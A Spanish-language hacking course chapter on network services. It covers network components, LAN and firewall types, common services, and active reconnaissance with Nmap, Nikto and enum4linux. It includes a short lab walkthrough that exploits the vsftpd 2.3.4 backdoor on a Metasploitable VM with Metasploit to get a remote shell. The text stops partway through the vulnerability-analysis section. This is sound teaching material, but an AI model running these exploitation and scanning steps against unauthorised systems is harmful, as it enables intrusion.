

| **Inicio**         | **atrás 16**                                      | **Siguiente 18**                                |
| ------------------ | ------------------------------------------------- | ----------------------------------------------- |
| [🏠](../README.md) | [⏪](./7_16_Hacking_Pentesting_con_Metasploit.md) | [⏩](./7_18_Hacking_Escalada_de_Privilegios.md) |

---

## **Índice**

| Temario                                                                                                        |
| -------------------------------------------------------------------------------------------------------------- |
| [959. Inicia tu camino como hacker en servicios de red](#959-inicia-tu-camino-como-hacker-en-servicios-de-red) |
| [960. Componentes de una red](#960-componentes-de-una-red)                                                     |
| [961. Tipos de redes LAN](#961-tipos-de-redes-lan)                                                             |
| [962. Tipos de firewall](#962-tipos-de-firewall)                                                               |
| [963. Tipos de servicios de red](#963-tipos-de-servicios-de-red)                                               |
| [964. Recolección de inteligencia activa](#964-recolección-de-inteligencia-activa)                             |
| [965. Análisis de vulnerabilidades](#965-análisis-de-vulnerabilidades)                                         |
| [966. Credenciales por defecto](#966-credenciales-por-defecto)                                                 |
| [967. Seguridad por obscuridad](#967-seguridad-por-obscuridad)                                                 |
| [968. Búsqueda de exploits](#968-búsqueda-de-exploits)                                                         |
| [969. Configuración de TryHackMe](#969-configuración-de-tryhackme)                                             |
| [970. Explotación de servicios en Windows](#970-explotación-de-servicios-en-windows)                           |
| [971. Harcoded backdoor](#971-harcoded-backdoor)                                                               |
| [972. Tipos de ataques DOS](#972-tipos-de-ataques-dos)                                                         |
| [973. Ataques DOS](#973-ataques-dos)                                                                           |
| [974. Fuerza bruta](#974-fuerza-bruta)                                                                         |
| [975. Sistemas industriales e infraestructura crítica](#975-sistemas-industriales-e-infraestructura-crítica)   |
| [976. Analysis de Firmware](#976-analysis-de-firmware)                                                         |
| [977. Hacking de impresoras](#977-hacking-de-impresoras)                                                       |
| [978. Basic pentesting](#978-basic-pentesting)                                                                 |

# **Hacking: Servicios de Red**

## **959. Inicia tu camino como hacker en servicios de red**

### 🧠 ¿Qué significa hackear servicios de red?

**Hackear servicios de red** no es romper sistemas sin permiso. Es aprender cómo funcionan y **cómo protegerlos**, encontrando debilidades como:

- Puertos abiertos
- Servicios inseguros (FTP, Telnet, SMB, etc.)
- Contraseñas débiles
- Configuraciones incorrectas

Se trata de aplicar conocimientos para evaluar y fortalecer redes.

---

### 🎯 Objetivo

Aprenderás a:

- Escanear redes y servicios
- Detectar sistemas vulnerables
- Empezar con herramientas reales como **Nmap**, **Netcat** y **Metasploit**
- Hacer un **ejemplo práctico completo**

---

### 🧰 Habilidades básicas que necesitas

Antes de comenzar, debes aprender:

| Habilidad           | Descripción                                                |
| ------------------- | ---------------------------------------------------------- |
| **Redes TCP/IP**    | Entender puertos, IPs, protocolos como HTTP, FTP, DNS      |
| **Linux básico**    | Usar terminal, ejecutar comandos, navegar archivos         |
| **Comandos de red** | `ping`, `traceroute`, `nslookup`, `netstat`, `ifconfig/ip` |
| **Ética hacker**    | Solo practicar en entornos autorizados y legales           |

---

### 🧰 Herramientas esenciales para empezar

| Herramienta           | ¿Para qué sirve?                             |
| --------------------- | -------------------------------------------- |
| **Kali Linux**        | Sistema especializado en hacking ético       |
| **Nmap**              | Escaneo de puertos y servicios               |
| **Netcat**            | Conexiones y shells remotas                  |
| **Wireshark**         | Análisis de tráfico de red                   |
| **Metasploit**        | Explotación de vulnerabilidades              |
| **VirtualBox/Vmware** | Para crear entornos de prueba                |
| **Metasploitable**    | Máquina vulnerable para practicar legalmente |

---

### 🖥️ Paso 1: Instalar Kali Linux (máquina atacante)

1. Descarga Kali: [https://www.kali.org/get-kali/](https://www.kali.org/get-kali/)
2. Instálalo en:

   - **VirtualBox**
   - **VMware**
   - O como Live USB

3. Crea un entorno virtual seguro para practicar.

---

### 🧪 Paso 2: Instalar una máquina víctima (Metasploitable 2)

1. Descárgala desde:
   [https://sourceforge.net/projects/metasploitable/](https://sourceforge.net/projects/metasploitable/)
2. Cárgala en VirtualBox como segunda máquina virtual.
3. Coloca ambas (Kali y Metasploitable) en **red interna** o **modo puente** para que se vean entre sí.

---

### 🔧 Paso 3: Instalar y usar herramientas básicas

#### ✅ Nmap

Ya viene en Kali. Para escanear:

```bash
nmap -sS -sV 192.168.1.100
```

- `-sS`: escaneo SYN (stealth)
- `-sV`: detección de versiones
- `192.168.1.100`: IP de la víctima

👉 Resultado: sabrás qué puertos están abiertos y qué servicios corren.

#### ✅ Netcat

También ya instalado. Para hacer pruebas de conexión:

```bash
nc -nv 192.168.1.100 21
```

👉 Te conecta al puerto FTP del host víctima.

---

### 📘 Ejemplo completo: Explorando un servicio de red vulnerable

---

#### 🧪 Escenario

- IP de Kali: `192.168.1.10`
- IP de víctima (Metasploitable): `192.168.1.100`

#### 🔹 Paso 1: Escaneo de puertos con Nmap

```bash
nmap -sS -sV 192.168.1.100
```

**Resultado ejemplo:**

```
21/tcp  open  ftp     vsftpd 2.3.4
22/tcp  open  ssh     OpenSSH 4.7p1
23/tcp  open  telnet  Linux telnetd
...
```

#### 🔹 Paso 2: Analizar un servicio

El puerto 21 tiene **vsftpd 2.3.4**, que es vulnerable a una **backdoor** conocida.

#### 🔹 Paso 3: Usar Metasploit para explotarlo

```bash
msfconsole
```

```bash
search vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST 192.168.1.100
set RPORT 21
run
```

**Resultado esperado:**

```
[*] Command shell session 1 opened
```

¡Listo! Has accedido a una **shell remota** en la máquina víctima gracias a un servicio vulnerable.

---

### 📚 Conclusión

Ahora sabes:

✅ Qué necesitas para comenzar como hacker ético de redes

✅ Cómo preparar tu laboratorio

✅ Cómo escanear puertos y servicios

✅ Cómo identificar vulnerabilidades reales

✅ Cómo usar herramientas profesionales

---

[🔼](#índice)

---

## **960. Componentes de una red**

### 📌 ¿Qué es una red?

Una **red** es un conjunto de dispositivos (computadoras, routers, switches, impresoras, etc.) conectados entre sí para compartir información y recursos.

---

### 🔧 Principales componentes de una red (explicación simple con ejemplos)

| Componente                   | Descripción                                              | Ejemplo práctico                                                           |
| ---------------------------- | -------------------------------------------------------- | -------------------------------------------------------------------------- |
| **Host**                     | Dispositivo final que se conecta a la red                | PC, laptop, smartphone, servidor                                           |
| **Tarjeta de red (NIC)**     | Permite que el dispositivo se conecte a la red           | Adaptador Ethernet o Wi-Fi de tu PC                                        |
| **Router**                   | Conecta varias redes y da acceso a Internet              | Router de tu casa que reparte Wi-Fi                                        |
| **Switch**                   | Conecta dispositivos dentro de la misma red local (LAN)  | Switch en una oficina que conecta varias PCs                               |
| **Access Point (AP)**        | Punto de acceso que extiende el Wi-Fi                    | Repetidor o AP en universidades o cafés                                    |
| **Modem**                    | Dispositivo que se comunica con tu proveedor de Internet | Modem de Movistar o Claro                                                  |
| **Cableado (o inalámbrico)** | Medio de transmisión de datos                            | Cable Ethernet o Wi-Fi                                                     |
| **Firewall**                 | Filtra el tráfico para proteger la red                   | Puede ser un software (Windows Defender) o hardware (firewall empresarial) |
| **Servidor**                 | Computadora que provee servicios (web, correo, archivos) | Gmail (correo), Google Drive (archivos)                                    |
| **Cliente**                  | Dispositivo que solicita servicios al servidor           | Tu navegador cuando visitas una página                                     |

---

### 📶 Tipos de redes (según el alcance)

| Tipo     | Descripción                          | Ejemplo                                             |
| -------- | ------------------------------------ | --------------------------------------------------- |
| **LAN**  | Red de área local (pequeña zona)     | Red de tu casa o colegio                            |
| **MAN**  | Red metropolitana                    | Red entre varias sedes de una empresa en una ciudad |
| **WAN**  | Red de área amplia (larga distancia) | Internet                                            |
| **WLAN** | Red local inalámbrica                | Wi-Fi en casa o biblioteca                          |

---

### 🧱 Diagrama simple de una red casera

```
[Internet]
     |
   [Modem]
     |
   [Router]---(Wi-Fi)---[Laptop]
     |
   [Switch]
   ├── [PC escritorio]
   └── [Impresora de red]
```

---

### ⚙️ ¿Cómo instalar una red básica en casa o laboratorio?

#### ✅ Requisitos:

- 1 router/modem (el que te da tu proveedor de Internet)
- 1 PC/laptop
- Cable Ethernet (opcional si usas Wi-Fi)

#### ✅ Pasos:

1. Conecta el router al modem (si no vienen juntos).
2. Conecta tu PC al router vía Wi-Fi o cable.
3. Asigna direcciones IP automáticas (DHCP activado por defecto).
4. Verifica la conexión:

```bash
ping www.google.com
```

Si responde, ¡ya tienes tu red funcionando!

---

### 🧪 Ejemplo completo: cómo identificar los componentes de una red en Linux

#### Supón que estás en una red y quieres identificar:

1. Tu IP
2. Tu gateway (router)
3. Qué dispositivos están conectados

#### Paso 1: Ver tu IP y la interfaz de red

```bash
ip a
```

Verás algo así:

```
3: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP>
    inet 192.168.1.10/24 brd 192.168.1.255 scope global dynamic eth0
```

➡️ Tu IP es `192.168.1.10`

#### Paso 2: Ver tu router (puerta de enlace)

```bash
ip route
```

Resultado:

```
default via 192.168.1.1 dev eth0
```

➡️ Tu router es `192.168.1.1`

#### Paso 3: Ver los dispositivos conectados a la red

Instala y usa `netdiscover`:

```bash
sudo apt install netdiscover
sudo netdiscover -r 192.168.1.0/24
```

Resultado:

```
192.168.1.1    00:11:22:33:44:55   Router
192.168.1.10   AA:BB:CC:DD:EE:FF   Tu PC
192.168.1.15   66:77:88:99:AA:BB   Celular
```

✅ Ahora ves los **componentes activos de tu red local**.

---

### 🎓 Conclusión

Ya entiendes:

✅ Qué es una red

✅ Cuáles son sus componentes (físicos y lógicos)

✅ Cómo armar una red simple

✅ Cómo identificar los elementos desde tu PC

---

[🔼](#índice)

---

## **961. Tipos de redes LAN**



### 🧠 ¿Qué es una red LAN?

**LAN** significa **Local Area Network** o **Red de Área Local**. Es una red de computadoras que **opera en un área limitada**, como una casa, oficina, colegio o laboratorio.

---

### 📦 ¿Qué necesitas para crear una red LAN?

- **Dispositivos (hosts)**: PC, laptops, impresoras, etc.
- **Medio de conexión**: cable Ethernet o Wi-Fi.
- **Switch** o **Router**: para interconectar.
- **Direcciones IP**: para que los dispositivos se comuniquen.
- (Opcional) **Servidor local**: para compartir archivos o recursos.

---

### 📚 Tipos de redes LAN (según su configuración)

A continuación, te explico los **principales tipos de LAN**, con ejemplos y diagramas simples:

---

#### 1. ✅ **LAN Cableada (Ethernet LAN)**

📌 Usa cables (como RJ45) para conectar dispositivos a través de un **switch o router**.

🔹 **Ventajas**: Estable, rápida, segura.

🔹 **Desventajas**: Poco flexible (necesita cables físicos).

**Ejemplo**: Red de computadoras en una empresa conectadas por cable.

```
[PC1] ─┐
       ├── [Switch] ── [Router] ── Internet
[PC2] ─┘
```

---

#### 2. ✅ **LAN Inalámbrica (WLAN)**

📌 Usa **Wi-Fi** para conectar dispositivos sin cables. Necesitas un **router inalámbrico** o un **Access Point**.

🔹 **Ventajas**: Portabilidad, fácil de instalar.

🔹 **Desventajas**: Menor velocidad, más vulnerable a ataques si no se configura bien.

**Ejemplo**: Red Wi-Fi en casa que conecta laptops, celulares y smart TV.

```
[Smartphone] ))))
[Laptop]      ))))   (Wi-Fi)
                ))))
              [Router] ── Internet
```

---

#### 3. ✅ **Peer-to-Peer (P2P LAN)**

📌 Red simple donde **cada dispositivo se comunica directamente** con otros sin un servidor central.

🔹 **Ventajas**: Fácil de configurar, útil para grupos pequeños.

🔹 **Desventajas**: No escalable, menos segura.

**Ejemplo**: Dos laptops conectadas por cable para compartir archivos.

```
[Laptop 1] ─── [Laptop 2]
```

---

#### 4. ✅ **Cliente-Servidor LAN**

📌 Hay un **servidor central** que gestiona recursos, y los clientes (PCs) acceden a ellos.

🔹 **Ventajas**: Centralización, administración fácil, escalable.

🔹 **Desventajas**: Necesita más hardware y conocimientos.

**Ejemplo**: Red en un colegio donde los estudiantes se conectan al servidor de archivos.

```
[Cliente 1] ─┐
[Cliente 2] ─┼── [Switch] ─── [Servidor de archivos]
[Cliente 3] ─┘
```

---

#### 5. ✅ **LAN Virtual (VLAN)**

📌 Red **lógica** creada dentro de una red física. Separa grupos de dispositivos como si estuvieran en redes distintas, aunque estén conectados al mismo switch.

🔹 **Ventajas**: Seguridad, segmentación, administración de tráfico.

🔹 **Desventajas**: Requiere switches gestionables y configuración.

**Ejemplo**: Una empresa separa las PCs de Finanzas y Marketing en distintas VLANs.

```
[Switch]
 ├── VLAN 10: Finanzas
 └── VLAN 20: Marketing
```

---

### 🛠️ ¿Cómo se instala una red LAN sencilla?

#### ✅ Requisitos:

- Router (con o sin Wi-Fi)
- 2 PCs o más
- Cables Ethernet (si es LAN cableada)
- Opcional: Switch para más conexiones

---

#### ✅ Pasos (LAN cableada):

1. Conecta todos los PCs al switch o router con cables Ethernet.
2. Configura las IPs automáticamente (DHCP activado por defecto en el router).
3. Verifica conectividad entre los PCs:

```bash
ping 192.168.1.5
```

(Usa la IP de otro PC en la red)

4. Habilita el **uso compartido de archivos** (en Windows o Linux).

---

### 🧪 Ejemplo completo: Crear una red LAN entre 2 PCs en casa

#### 🔧 Escenario:

- Tienes 2 laptops en casa.
- Quieres compartir archivos entre ellas sin Internet.
- Usarás un **cable Ethernet cruzado** o un **router viejo**.

#### 🛠️ Pasos:

##### Opción 1: Conectadas por cable directo (modo P2P)

1. Conecta ambas laptops por cable cruzado.
2. Asigna IPs manualmente:

**Laptop 1:**

```
IP: 192.168.1.10
Mascara: 255.255.255.0
```

**Laptop 2:**

```
IP: 192.168.1.11
Mascara: 255.255.255.0
```

3. Verifica conexión:

```bash
ping 192.168.1.11
```

4. Crea una carpeta compartida en cada laptop.
5. Accede desde el explorador:
   `\\192.168.1.10` o `\\192.168.1.11`

¡Listo! Ya tienes una red LAN punto a punto para compartir archivos.

---

### 🧠 Resumen

| Tipo de LAN         | Medio       | Ideal para               |
| ------------------- | ----------- | ------------------------ |
| Cableada (Ethernet) | Cable       | Oficinas, redes estables |
| Inalámbrica (WLAN)  | Wi-Fi       | Hogares, móviles         |
| P2P                 | Cable/Wi-Fi | Red directa entre 2 PCs  |
| Cliente-servidor    | Mixto       | Empresas, colegios       |
| VLAN                | Lógico      | Seguridad y segmentación |

---

[🔼](#índice)

---

## **962. Tipos de firewall**

### 🔥 ¿Qué es un Firewall?

Un **firewall** (o cortafuegos) es un **sistema de seguridad que filtra el tráfico de red**: decide qué datos pueden entrar o salir de una red o computadora, según reglas definidas.

---

### 📚 Tipos de Firewalls (Explicado con ejemplos sencillos)

Existen varios tipos, según cómo funcionan o dónde están ubicados. Aquí te explico los **principales tipos**, con ejemplos fáciles:

---

#### 1. 🔹 **Firewall de red (Network-based)**

📌 Se coloca entre la red interna y el internet, protegiendo a toda la red.

🔐 **Ejemplo**: Un firewall en el router de tu casa que bloquea puertos peligrosos.

🛠️ **Uso**: Corporativos, routers domésticos.

---

#### 2. 🔹 **Firewall personal (Host-based)**

📌 Protege **solo un dispositivo individual**, como tu PC o laptop.

🔐 **Ejemplo**: El firewall de Windows bloquea conexiones no autorizadas a tu PC.

🛠️ **Uso**: Computadoras personales.

---

#### 3. 🔹 **Firewall por filtrado de paquetes (Packet-filtering)**

📌 Analiza cada **paquete de datos individualmente** (IP, puerto, protocolo) y decide si permitirlo.

🔐 **Ejemplo**: Bloquear todo lo que entre al puerto 23 (Telnet).

🧠 Es muy rápido, pero no entiende el contenido del tráfico.

---

#### 4. 🔹 **Firewall con inspección con estado (Stateful)**

📌 Registra el **estado de las conexiones** activas. Solo permite paquetes relacionados con conexiones válidas.

🔐 **Ejemplo**: Permite el tráfico HTTP solo si fue iniciado desde dentro.

🧠 Más inteligente y seguro que el filtrado simple.

---

#### 5. 🔹 **Firewall de aplicación (Application Layer / Proxy)**

📌 Analiza el tráfico en nivel de aplicación (como HTTP, FTP, DNS). Incluso puede bloquear ciertas páginas o comandos.

🔐 **Ejemplo**: Un proxy que bloquea YouTube en una escuela.

🧠 Muy útil para control detallado, pero más lento.

---

#### 6. 🔹 **Firewall de próxima generación (NGFW)**

📌 Combina **inspección profunda de paquetes**, antivirus, detección de intrusos, reglas de apps, etc.

🔐 **Ejemplo**: Bloquea tráfico de una app específica como BitTorrent.

🧠 Ideal para empresas, más completo y moderno.

---

#### 7. 🔹 **Firewall en la nube**

📌 Servicio que protege redes a través de la nube, sin hardware físico.

🔐 **Ejemplo**: AWS WAF (Firewall web en Amazon), Cloudflare, etc.

🧠 Escalable, ideal para sistemas en la nube.

---

### 🛠️ Instalación de un Firewall Personal (Host-Based)

#### 🔸 Opción: **UFW (Uncomplicated Firewall)** en Linux

> UFW es un firewall sencillo para Ubuntu/Debian basado en iptables.

#### ✅ Instalación:

```bash
sudo apt update
sudo apt install ufw
```

#### ✅ Comandos básicos:

- Activar firewall:

```bash
sudo ufw enable
```

- Permitir puerto 22 (SSH):

```bash
sudo ufw allow 22
```

- Denegar todo lo demás:

```bash
sudo ufw default deny incoming
```

- Ver estado y reglas:

```bash
sudo ufw status verbose
```

---

#### 🔸 Opción: **Firewall de Windows (GUI y PowerShell)**

1. Abre Panel de control → Sistema y seguridad → Firewall de Windows Defender.
2. Agrega reglas de entrada/salida (por app o por puerto).
3. También puedes usar PowerShell:

```powershell
New-NetFirewallRule -DisplayName "Bloquear FTP" -Direction Inbound -LocalPort 21 -Protocol TCP -Action Block
```

---

### 🧪 Ejemplo completo: Configurar un firewall personal en Ubuntu con UFW

#### 🎯 Objetivo:

- Permitir solo SSH (22), HTTP (80), HTTPS (443).
- Bloquear todo lo demás.

#### ✅ Pasos:

1. Instala UFW:

```bash
sudo apt install ufw
```

2. Habilita políticas por defecto:

```bash
sudo ufw default deny incoming
sudo ufw default allow outgoing
```

3. Permite servicios necesarios:

```bash
sudo ufw allow 22      # SSH
sudo ufw allow 80      # HTTP
sudo ufw allow 443     # HTTPS
```

4. Activa el firewall:

```bash
sudo ufw enable
```

5. Verifica configuración:

```bash
sudo ufw status verbose
```

🛡️ ¡Listo! Ahora solo ciertos servicios están permitidos.

---

### 🧠 Resumen de Tipos de Firewalls

| Tipo                | Nivel               | Uso común                           |
| ------------------- | ------------------- | ----------------------------------- |
| Packet Filtering    | Capa 3 (IP/puertos) | Básico, rápido                      |
| Stateful Inspection | Capa 3-4            | Más seguro, seguimiento de conexión |
| Application / Proxy | Capa 7              | Control de apps y tráfico web       |
| Host-Based          | Dispositivo         | Seguridad personal                  |
| Network-Based       | Red completa        | Protege redes empresariales         |
| NGFW                | Avanzado            | Empresas, múltiples capas           |
| Cloud Firewall      | Virtual             | Aplicaciones en la nube             |

---

[🔼](#índice)

---

## **963. Tipos de servicios de red**

### 🌐 ¿Qué son los servicios de red?

Los **servicios de red** son programas o procesos que se ejecutan en computadoras conectadas a una red y permiten la **comunicación, administración y compartición de recursos** (como archivos, internet, impresoras, etc.).

> 🔧 Un servicio de red se identifica normalmente por un **puerto** y un **protocolo** (TCP o UDP).

---

### 🧩 Tipos de servicios de red (Explicación con ejemplos simples)

#### 1. 📄 **Servicio DNS (Domain Name System)**

🔹 Traduce nombres de dominio (como `google.com`) en direcciones IP (`142.250.190.78`).

✅ **Puerto**: 53

✅ **Protocolo**: UDP (y a veces TCP)

📌 **Ejemplo**: Cuando escribes `www.facebook.com`, tu computadora usa DNS para saber a qué IP conectarse.

---

#### 2. 📧 **Servicio DHCP (Dynamic Host Configuration Protocol)**

🔹 Asigna automáticamente direcciones IP a dispositivos en la red.

✅ **Puerto**: 67 (servidor), 68 (cliente)

✅ **Protocolo**: UDP

📌 **Ejemplo**: Cuando conectas tu celular al WiFi, recibe una IP automáticamente gracias al DHCP.

---

#### 3. 💻 **Servicio HTTP / HTTPS (Web)**

🔹 Sirve páginas web.

- **HTTP**: sin cifrar.
- **HTTPS**: cifrado con SSL/TLS.

✅ **Puerto**: 80 (HTTP), 443 (HTTPS)

✅ **Protocolo**: TCP

📌 **Ejemplo**: Navegar por YouTube o cualquier página web.

---

#### 4. 🗃️ **Servicio FTP (File Transfer Protocol)**

🔹 Transfiere archivos entre computadoras.

✅ **Puerto**: 21

✅ **Protocolo**: TCP

📌 **Ejemplo**: Subir archivos a un servidor web.

---

#### 5. 💬 **Servicio SSH (Secure Shell)**

🔹 Permite acceder de forma segura a una terminal remota (como conectarte a un servidor).

✅ **Puerto**: 22

✅ **Protocolo**: TCP

📌 **Ejemplo**: Conectarte a un servidor Linux para administrarlo.

---

#### 6. 🖨️ **Servicio SMB (Samba / Windows File Sharing)**

🔹 Comparte carpetas, archivos o impresoras en una red.

✅ **Puerto**: 445

✅ **Protocolo**: TCP

📌 **Ejemplo**: Compartir una carpeta entre dos computadoras con Windows.

---

#### 7. ✉️ **Servicios de correo electrónico (SMTP, POP3, IMAP)**

- **SMTP**: Envío de correos. (Puerto 25)
- **POP3**: Recibe correos, descarga. (Puerto 110)
- **IMAP**: Recibe correos, mantiene en servidor. (Puerto 143)

📌 **Ejemplo**: Gmail usa estos servicios para enviar y recibir mensajes.

---

### 🛠️ ¿Cómo identificar servicios en una red?

Puedes usar herramientas como:

- **Nmap**: para escanear puertos y saber qué servicios corren.

```bash
nmap -sV 192.168.1.1
```

- **Netstat** (en tu PC):

```bash
netstat -tuln
```

- **ss** (en Linux moderno):

```bash
ss -tuln
```

---

### 📥 ¿Cómo se instalan algunos servicios?

#### 🔸 Instalar un servidor web (Apache):

```bash
sudo apt update
sudo apt install apache2
```

🔎 Luego accede a `http://localhost` en tu navegador.

---

#### 🔸 Instalar un servidor FTP (vsftpd):

```bash
sudo apt install vsftpd
sudo systemctl start vsftpd
```

---

#### 🔸 Instalar un servidor SSH:

```bash
sudo apt install openssh-server
sudo systemctl start ssh
```

✅ Luego puedes conectarte desde otro equipo:

```bash
ssh usuario@IP_del_servidor
```

---

### 🧪 Ejemplo completo: Simular varios servicios de red en tu máquina virtual (Linux)

#### 🎯 Objetivo:

Instalar e identificar los siguientes servicios:

- Apache (web)
- SSH
- FTP

---

#### ✅ Paso 1: Instalar servicios

```bash
sudo apt update
sudo apt install apache2 vsftpd openssh-server
```

---

#### ✅ Paso 2: Verificar si están activos

```bash
sudo systemctl status apache2
sudo systemctl status vsftpd
sudo systemctl status ssh
```

---

#### ✅ Paso 3: Verificar puertos activos

```bash
sudo ss -tuln
```

📌 Deberías ver:

- `tcp *:22` → SSH
- `tcp *:21` → FTP
- `tcp *:80` → HTTP

---

#### ✅ Paso 4: Escanear con Nmap desde otra máquina

```bash
nmap -sV 192.168.1.X
```

📌 Resultado esperado:

```
PORT   STATE SERVICE     VERSION
21/tcp open  ftp         vsftpd 3.0.3
22/tcp open  ssh         OpenSSH 8.2
80/tcp open  http        Apache httpd 2.4.41
```

---

### 🧠 Conclusión

Los **servicios de red** son esenciales para la comunicación entre dispositivos. Cada servicio opera en un puerto, y es importante conocerlos tanto para administrarlos como para protegerte en ciberseguridad.

---

[🔼](#índice)

---

## **964. Recolección de inteligencia activa**

### 🕵️‍♂️ ¿Qué es la Recolección de Inteligencia Activa?

La **recolección de inteligencia activa** (Active Reconnaissance) es una fase del hacking ético en la que se **interactúa directamente con el objetivo** para obtener información. Esto puede alertar a la víctima si tiene sistemas de monitoreo, porque **la actividad genera tráfico o registros (logs)**.

> 📌 A diferencia de la recolección pasiva (que no deja huella), la activa sí puede ser detectada.

---

### 🎯 ¿Qué se busca en esta fase?

Durante la recolección activa, el atacante (o pentester) busca información como:

- Qué **puertos** están abiertos.
- Qué **servicios** están corriendo y sus versiones.
- Qué **sistema operativo** usa el objetivo.
- Qué **vulnerabilidades** podrían estar presentes.

---

### 🧰 Herramientas comunes para recolección activa

| Herramienta                        | Propósito                             |
| ---------------------------------- | ------------------------------------- |
| **Nmap**                           | Escaneo de puertos y servicios        |
| **Netcat**                         | Conexiones manuales a servicios       |
| **Nikto**                          | Escaneo de vulnerabilidades web       |
| **WhatWeb**                        | Detectar tecnologías web              |
| **Enum4linux**                     | Recolección de datos en redes Windows |
| **Metasploit (auxiliary modules)** | Escaneo activo y fingerprinting       |

---

### ⚙️ ¿Cómo se instalan estas herramientas?

#### 📦 En Kali Linux

Ya vienen preinstaladas casi todas.

#### 🔧 En Ubuntu o Debian:

```bash
sudo apt update
sudo apt install nmap netcat nikto whatweb enum4linux
```

---

### 🧪 Ejemplo completo: Recolección activa sobre un servidor

#### 🎯 Escenario:

Tienes una máquina objetivo con IP `192.168.1.100` (puede ser una VM como Metasploitable2).

---

#### ✅ Paso 1: Escanear puertos con Nmap

```bash
nmap -sS -sV -O 192.168.1.100
```

📌 Explicación:

- `-sS`: escaneo TCP SYN (stealth)
- `-sV`: detectar versión de los servicios
- `-O`: detectar sistema operativo

📥 Salida típica:

```
PORT     STATE SERVICE    VERSION
21/tcp   open  ftp        vsftpd 2.3.4
22/tcp   open  ssh        OpenSSH 4.7p1
80/tcp   open  http       Apache 2.2.8
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
OS details: Linux 2.6.24 - 2.6.28
```

---

#### ✅ Paso 2: Enumerar servicios web con WhatWeb

```bash
whatweb http://192.168.1.100
```

📥 Salida típica:

```
http://192.168.1.100 [200 OK] Apache[2.2.8] PHP[5.2.4]
```

---

#### ✅ Paso 3: Buscar vulnerabilidades en el servidor web con Nikto

```bash
nikto -h http://192.168.1.100
```

📥 Resultado posible:

```
+ Server: Apache/2.2.8 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ Uncommon header 'tcn' found, with contents: list
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS
+ OSVDB-3268: /icons/: Directory indexing found.
```

---

#### ✅ Paso 4: Enumerar usuarios y recursos compartidos con Enum4Linux

```bash
enum4linux -a 192.168.1.100
```

📥 Resultado típico:

```
[*] Enumerating users using RID cycling
[+] Found user: administrator
[+] Found user: guest
[+] Found group: Domain Admins
```

---

### 📚 Resumen: flujo típico de recolección activa

```text
1. Escaneo de puertos (Nmap)
2. Identificación de servicios y versiones
3. Detección del sistema operativo
4. Enumeración de servicios web
5. Escaneo de vulnerabilidades
6. Enumeración de usuarios, recursos o configuraciones inseguras
```

---

### 🧠 Conclusión

La **recolección de inteligencia activa** es una de las partes más poderosas del pentesting porque te permite descubrir **la superficie de ataque real** de un sistema. Sin embargo, al interactuar directamente con el objetivo, **puedes ser detectado**, así que debe hacerse con autorización y precaución.

---

[🔼](#índice)

---

## **965. Análisis de vulnerabilidades**

### 🔍 ¿Qué es el Análisis de Vulnerabilidades?

El **análisis de vulnerabilidades** es el proceso de **buscar, identificar y reportar fallas de seguridad** en un sistema, red o aplicación que podrían ser explotadas por un atacante.

Estas vulnerabilidades pueden estar en:

- Sistemas operativos desactualizados
- Software con configuraciones inseguras
- Aplicaciones web vulnerables
- Servicios abiertos sin protección

---

### 🎯 ¿Para qué sirve?

- **Prevenir ataques** antes de que ocurran
- **Cumplir con normativas de seguridad** (como ISO 27001, PCI-DSS)
- **Auditar y mejorar la postura de seguridad**
- **Automatizar revisiones regulares** del sistema

---

### 🧰 Herramientas más comunes para análisis de vulnerabilidades

| Herramienta                        | Descripción                                                        |
| ---------------------------------- | ------------------------------------------------------------------ |
| **Nessus**                         | Uno de los escáneres más usados, detecta miles de vulnerabilidades |
| **OpenVAS (Greenbone)**            | Alternativa gratuita y poderosa a Nessus                           |
| **Nikto**                          | Escanea vulnerabilidades web en servidores                         |
| **Vega**                           | GUI para detectar vulnerabilidades web (XSS, SQLi, etc.)           |
| **Metasploit (auxiliary/scanner)** | Escaneo activo y validación de vulnerabilidades                    |
| **Nmap (con scripts NSE)**         | Permite identificar vulnerabilidades conocidas                     |

---

### 🧱 Tipos de escaneo

1. **Escaneo de red**: descubre hosts, puertos y servicios.
2. **Escaneo de vulnerabilidades**: analiza servicios detectados en busca de fallas de seguridad.
3. **Escaneo autenticado**: el escáner se conecta con usuario y contraseña para tener acceso completo.
4. **Escaneo no autenticado**: escaneo desde fuera como un atacante normal.

---

### ⚙️ ¿Cómo se instala una herramienta de análisis? (Ej: Nessus Essentials)

#### 📥 Instalación de Nessus Essentials (gratuito)

##### En Linux (Debian/Kali/Ubuntu):

1. Descarga desde:
   👉 [https://www.tenable.com/downloads/nessus](https://www.tenable.com/downloads/nessus)

2. Instala el paquete `.deb` (en Kali, Ubuntu):

```bash
sudo dpkg -i Nessus-*.deb
sudo systemctl start nessusd
```

3. Abre en tu navegador:
   👉 `https://localhost:8834`

4. Regístrate para obtener una licencia gratuita **Nessus Essentials**.

---

### ✅ Ejemplo completo: Análisis de vulnerabilidades con Nessus

#### 🎯 Escenario:

